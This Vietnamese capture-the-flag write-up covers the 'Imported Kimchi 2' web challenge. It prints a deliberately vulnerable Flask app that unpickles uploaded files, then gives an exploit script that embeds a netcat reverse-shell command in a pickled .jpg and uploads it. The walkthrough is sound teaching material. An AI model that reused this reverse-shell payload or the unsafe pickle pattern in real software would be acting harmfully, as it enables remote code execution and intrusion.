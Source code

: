 # `Imported Kimchi 2`

Source:
```python
import uuid
from flask import *
from flask_bootstrap import Bootstrap
import pickle
import os

app = Flask(__name__)
Bootstrap(app)

app.secret_key = 'sup3r s3cr3t k3y'

ALLOWED_EXTENSIONS = set(['png', 'jpg', 'jpeg'])

images = set()
images.add('bibimbap.jpg')
images.add('galbi.jpg')
images.add('pickled_kimchi.jpg')

@app.route('/')
def index():
    return render_template("index.html", images=images)

@app.route('/upload', methods=['GET', 'POST'])
def upload():
    if request.method == 'POST':
        image = request.files["image"]
        if image and image.filename.split(".")[-1].lower() in ALLOWED_EXTENSIONS:
            # special file names are fun!
            extension = "." + image.filename.split(".")[-1].lower()
            fancy_name = str(uuid.uuid4()) + extension

            image.save(os.path.join('./images', fancy_name))
            flash("Successfully uploaded image! View it at /images/" + fancy_name, "success")
            return redirect(url_for('upload'))

        else:
            flash("An error occured while uploading the image! Support filetypes are: png, jpg, jpeg", "danger")
            return redirect(url_for('upload'))

    else:
        return render_template("upload.html")

@app.route('/images/<filename>')
def display_image(filename):
    try:
        pickle.loads(open('./images/' + filename, 'rb').read())
    except:
        pass
    return send_from_directory('./images', filename)

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

Check sơ qua source thì ta thấy web có chức năng upload ảnh và check extension bằng white box -> chỗ này khá khó để bypass extension.

Mình đã chuyển xuống dưới xem có gì khả nghi không thì thấy có 1 `pickle` là lạ nên mình đã tra gg và ra được là hàm này có dùng để khai thác RCE.

Đây là trang web mình tham khảo để khai thác RCE: https://www.landgrey.me/static/upload/2019-09-15/fwxkilqj.pdf

Sau 1 hồi nghiên cứu thì mình viết được script gen ra file image với content là payload để RCE:

Script:

```python
import os
import pickle
import requests
from bs4 import BeautifulSoup as bs
import html5lib

class A(object):
    def __reduce__(self):
        return os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.127.72 5556 >/tmp/f', )
        # Mọi người thay đổi ip và port để có thể kết nối đến máy chủ

def main():
    url = "https://imported-kimchi-2.cha.hackpack.club/upload"
    # taọ ra file image chứa payload để RCE
    p = pickle.dumps(A())
    with open("b.jpg", "wb") as f:
        f.write(p)

    res = requests.post(url, files={("image", open("b.jpg", "rb"))}).text
    soup = bs(res, "html5lib")

    print(soup.find("div", class_="alert alert-success").text)

if __name__ == "__main__":
    main()
```

Rồi truy cập vào máy của mình sẽ thấy báo là RCE thành công.

Vì mình giải được bài này khi giải đã kết thúc nên không lấy được Flag. Mọi người có thể chạy trên local bằng source trên.

Cảm ơn các bạn đã đón đọc.
